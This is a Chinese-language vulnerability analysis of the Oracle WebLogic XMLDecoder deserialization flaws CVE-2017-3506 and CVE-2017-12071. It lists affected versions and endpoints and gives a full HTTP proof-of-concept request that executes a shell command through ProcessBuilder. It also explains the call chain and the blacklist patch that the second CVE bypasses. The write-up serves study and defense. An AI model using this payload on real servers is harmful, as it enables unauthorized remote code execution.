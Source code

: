 - [CVE-2017-3506&CVE-2017-12071 反序列化](#cve-2017-3506cve-2017-12071-反序列化)
  - [CVE-2017-3506](#cve-2017-3506)
    - [POC](#poc)
  - [原理](#原理)
    - [调用链](#调用链)
    - [CVE-2017-12071](#cve-2017-12071)
# CVE-2017-3506&CVE-2017-12071 反序列化
影响版本
```
10.3.6.0
12.1.3.0
12.2.1.0
12.2.1.1
12.2.1.2
```
访问以下url,可访问即开启了相关漏洞组件
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```
## CVE-2017-3506
### POC
```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 127.0.0.:7001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml
Content-Length: 764

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>whoami>/tmp/log</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```
## 原理
其原因在于WLS-WebServices这个组件中使用了JDK自带的XMLDecoder来直接解析XML数据,触发了XMLDecoder反序列化漏洞.
### 调用链
首先在`weblogic/wsee/jaxws/workcontext/WorkContextServerTube.class.processRequest`方法中开始处理相关xml请求.
首先分切xml数据的haeader交给readHeaderOld方法.
![](1.png)
在readHeaderOld方法中,var4通过XMLStreamWriteFactory.create和var3的bridge()方法被填充为poc部分即
```xml
<java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>whoami>/tmp/log</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
```
然后将这部分作为参数实例化了一个WorkContextXmlInputAdapter.
![](2.png)  
而在WorkContextXmlInputAdapter实例化中则直接调用了xmlDecoder来反序列化数据.触发xmlDecoder反序列化漏洞.
![](3.png)
### CVE-2017-12071
CVE-2017-12071为CVE-2017-3506补丁的绕过,CVE-2017-3506的补丁只是把object标签对象加了黑名单,而在xmldecoder中还有可替代的标签进行替换即可,而在CVE-2017-12071中则是将`object、new、method`关键字加入了黑名单,匹配到即抛出异常,对`void,array`标签若没有分别匹配匹配到`index`和`bytes`属性才抛出异常,即不能使用`object、new、method`标签,而`void`标签只能有index节点或者空节点,而`array`标签则只接受bytes类型的参数.
```java
public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {

            if(qName.equalsIgnoreCase("object")) {

               throw new IllegalStateException("Invalid element qName:object");

            } else if(qName.equalsIgnoreCase("new")) {

               throw new IllegalStateException("Invalid element qName:new");

            } else if(qName.equalsIgnoreCase("method")) {

               throw new IllegalStateException("Invalid element qName:method");

            } else {

               if(qName.equalsIgnoreCase("void")) {

                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {

                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {

                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {

                  String var9 = attributes.getValue("class");

                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {

                     throw new IllegalStateException("The value of class attribute is not valid for array element.");

                  }
```